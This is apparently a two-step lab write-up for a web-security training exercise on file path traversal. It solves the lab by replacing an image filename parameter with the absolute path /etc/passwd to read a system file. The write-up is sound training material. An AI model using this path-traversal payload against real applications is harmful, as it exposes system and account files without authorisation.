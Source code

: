 # File path traversal, traversal sequences blocked with absolute path bypass

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

### step 1

## https://0a8800f7036619eac0a62721007c000c.web-security-academy.net/image?filename=65.jpg

### step2

## https://0a8800f7036619eac0a62721007c000c.web-security-academy.net/image?filename=/etc/passwd
